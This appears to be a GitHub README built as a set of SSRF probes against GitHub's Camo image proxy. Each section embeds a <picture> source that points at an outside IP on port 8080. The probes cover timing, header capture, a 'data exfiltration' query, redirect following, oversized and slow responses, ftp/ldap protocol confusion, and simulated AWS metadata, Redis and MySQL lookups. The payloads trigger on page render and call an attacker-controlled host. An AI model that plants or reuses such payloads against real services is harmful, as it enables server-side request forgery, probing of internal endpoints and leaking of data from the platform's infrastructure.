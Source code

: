 # 🔍 SSRF Validation Tests

Testing GitHub Camo proxy SSRF vulnerability.

## Basic SSRF Confirmation
<picture>
  <source srcset="http://164.90.187.218:8080/ssrf-test-1-basic">
  <img src="https://github.com/zebbern/github-secrets/blob/main/2.jpg" alt="Basic Test">
</picture>

## Timing Attack Test  
<picture>
  <source srcset="http://164.90.187.218:8080/ssrf-test-2-timing?delay=10">
  <img src="https://github.com/zebbern/github-secrets/blob/main/2.jpg" alt="Timing Test">
</picture>

## Data Exfiltration Test
<picture>
  <source srcset="http://164.90.187.218:8080/ssrf-test-3-data?data=github-internal-secret">
  <img src="https://github.com/zebbern/github-secrets/blob/main/2.jpg" alt="Data Test">
</picture>

## Header Analysis Test
<picture>
  <source srcset="http://164.90.187.218:8080/ssrf-test-4-headers">
  <img src="https://github.com/zebbern/github-secrets/blob/main/2.jpg" alt="Header Test">
</picture>

## Redirect Following Test
<picture>
  <source srcset="http://164.90.187.218:8080/ssrf-test-5-redirect?step=1">
  <img src="https://github.com/zebbern/github-secrets/blob/main/2.jpg" alt="Redirect Test">
</picture>

## Large Response Test (50MB)
<picture>
  <source srcset="http://164.90.187.218:8080/ssrf-test-6-large?size=50">
  <img src="https://github.com/zebbern/github-secrets/blob/main/2.jpg" alt="Large Test">
</picture>

## Slow Response Test (30s)
<picture>
  <source srcset="http://164.90.187.218:8080/ssrf-test-7-slow?duration=30">
  <img src="https://github.com/zebbern/github-secrets/blob/main/2.jpg" alt="Slow Test">
</picture>

## Protocol Confusion Tests
<picture>
  <source srcset="http://164.90.187.218:8080/ssrf-test-8-protocols?protocol=ftp">
  <img src="https://github.com/zebbern/github-secrets/blob/main/2.jpg" alt="FTP Test">
</picture>

<picture>
  <source srcset="http://164.90.187.218:8080/ssrf-test-8-protocols?protocol=ldap">
  <img src="https://github.com/zebbern/github-secrets/blob/main/2.jpg" alt="LDAP Test">
</picture>

## Internal Service Simulation
<picture>
  <source srcset="http://164.90.187.218:8080/simulate-internal?service=aws-metadata">
  <img src="https://github.com/zebbern/github-secrets/blob/main/2.jpg" alt="AWS Test">
</picture>

<picture>
  <source srcset="http://164.90.187.218:8080/simulate-internal?service=redis-info">
  <img src="https://github.com/zebbern/github-secrets/blob/main/2.jpg" alt="Redis Test">
</picture>

<picture>
  <source srcset="http://164.90.187.218:8080/simulate-internal?service=mysql-status">
  <img src="https://github.com/zebbern/github-secrets/blob/main/2.jpg" alt="MySQL Test">
</picture>
